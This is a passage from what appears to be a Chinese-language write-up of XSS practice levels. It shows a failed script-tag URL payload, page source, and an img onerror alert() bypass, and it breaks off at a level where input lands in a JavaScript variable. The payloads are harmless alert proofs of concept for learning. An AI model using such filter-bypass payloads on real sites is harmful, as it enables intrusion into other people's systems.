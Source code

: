 成功搞定！

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210822111512.png)



### 标签替换

继续下一个实验，还是老套路，结果发现失败。

```
http://target_sys.com/xss/xss06.php?name=huan%3Cscript%3Elalert(%22xss%22)%3C/script%3E
```

```
level 6
绕过失败
```

查看这次网页源码发现什么都没有，并且构造其他`<script>`标签也是什么都没有。

```html
<body>
<h3>level 6</h3>
<div class='main'>
绕过失败
</body>
```

只好尝试使用其他标签（查看教程）， 来构造payload。

```
<img src=a onerror=alert("xss")>
```

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210822113356.png)

 如果alert被禁用，还可以通过其他函数来实现

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210822114218.png)

### 前端JS输出

```
http://target_sys.com/xss/xss08.php?name=huan
```

页面返回结果只有下面内容

```
level 8
```

检查网页源码

```html
<body>
<h3>level 8</h3>
<div class='main'>
<script>
	var $a = "我的名字是 moon";
</script>
</div>
</body>
```
